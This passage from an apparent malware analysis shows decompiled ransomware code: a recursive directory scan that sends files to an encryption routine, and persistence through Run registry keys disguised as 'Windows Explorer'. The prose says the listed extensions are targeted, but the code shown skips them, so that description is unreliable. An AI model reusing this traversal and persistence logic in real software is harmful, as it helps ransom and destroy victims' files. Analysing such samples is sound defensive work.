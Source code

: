 ### 2. Directory Traversal (sub_4012C0)

This function recursively scans directories for files to encrypt, targeting specific extensions (e.g., .exe, .dll) while avoiding system files.

```c
HANDLE __cdecl sub_4012C0(LPCWSTR lpString) {
  WCHAR FileName[1024];
  wsprintfW(FileName, L"%s\\*.*", lpString);
  HANDLE hFindFile = FindFirstFileW(FileName, &FindFileData);
  if (hFindFile != (HANDLE)-1) {
    do {
      if ((FindFileData.dwFileAttributes & 0x10) != 0) { // Directory
        if (lstrcmpW(FindFileData.cFileName, L"..") && lstrcmpW(FindFileData.cFileName, L".")) {
          sub_4012C0(FileName); // Recursive call
        }
      } else { // File
        int v4 = 0;
        for (unsigned int i = 0; i < 14; ++i) {
          if (StrStrW(FileName, off_405000[i])) v4 = 1; // Check against extension list
        }
        if (!v4 && (FindFileData.dwFileAttributes & 4) == 0) {
          sub_401080(FileName); // Encrypt file
        }
      }
    } while (FindNextFileW(hFindFile, &FindFileData));
    FindClose(hFindFile);
  }
  return hFindFile;
}
```

- **Target Extensions**: Defined in off_405000 (e.g., .exe, .dll, .txt).
- **Exclusions**: Avoids system files and directories like \Microsoft\Windows.

### 3. Persistence (sub_401AD0)

The ransomware ensures it runs on startup by adding itself to the Windows Registry.

```c
LSTATUS sub_401AD0() {
  HKEY phkResult;
  RegCreateKeyW(HKEY_CURRENT_USER, L"Software\\Microsoft\\Windows\\CurrentVersion\\Run", &phkResult);
  RegSetValueExW(phkResult, L"Windows Explorer", 0, 1u, (const BYTE *)ApplicationName, 2 * lstrlenW(ApplicationName));
  RegCloseKey(phkResult);
  RegCreateKeyW(HKEY_LOCAL_MACHINE, L"Software\\Microsoft\\Windows\\CurrentVersion\\Run", &phkResult);
  RegSetValueExW(phkResult, L"Windows Explorer", 0, 1u, (const BYTE *)ApplicationName, 2 * lstrlenW(ApplicationName));
  return RegCloseKey(phkResult);
}
```
